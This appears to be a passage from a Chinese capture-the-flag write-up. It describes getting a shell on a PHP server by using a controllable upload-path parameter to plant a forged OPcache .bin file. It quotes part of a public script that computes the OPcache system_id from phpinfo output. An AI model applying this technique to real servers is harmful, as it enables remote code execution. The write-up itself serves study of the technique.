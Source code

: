 ```php+HTML

 ?>


```

审代码，发现prefix参数可以改变上传路径，这样我们的bin文件上传路径也可控了，可以利用opcache来getshell了

我们需要将bin文件上传`到/tmp/opcache/[system_id]/var/www/`

计算system_id,需要的信息可以从phpinfo里获取

https://github.com/GoSecure/php7-opcache-override

```python
#!/usr/bin/env python2

# Copyright (c) 2016, 2019 GoSecure Inc.

import sys
from packaging import version
import re
import requests

def md5(data):
    if type(data) is str:
        data = bytes(data, encoding='utf-8')
    return __import__('hashlib').md5(data).hexdigest()

if len(sys.argv) != 2:
    print(sys.argv[0] + " [file|URL]")
    exit(0)

if (sys.argv[1].startswith("http")):
    text = requests.get(sys.argv[1]).text
else:
    with open(sys.argv[1]) as file:
        text = file.read()
        file.close()

# PHP Version
php_version = re.search('<tr><td class="e">PHP Version </td><td class="v">(.*) </td></tr>', text)

if php_version == None:
    php_version = re.search('<h1 class="p">PHP Version (.*)', text)

if php_version == None:
    print("No PHP version found, is this a phpinfo file?")
    exit(0)

php_version = php_version.group(1)
php_greater_74 = (version.parse("7.4.0") < version.parse(php_version.split("-")[0]))
# Zend Extension Build ID
zend_extension_id = re.search('<tr><td class="e">Zend Extension Build </td><td class="v">(.*) </td></tr>', text)
if zend_extension_id == None:
    print("No Zend Extension Build found.")
    exit(0)
zend_extension_id = zend_extension_id.group(1)

# Architecture
architecture = re.search('<tr><td class="e">System </td><td class="v">(.*) </td></tr>', text)
if architecture == None:
    print("No System info found.")
    exit(0)
```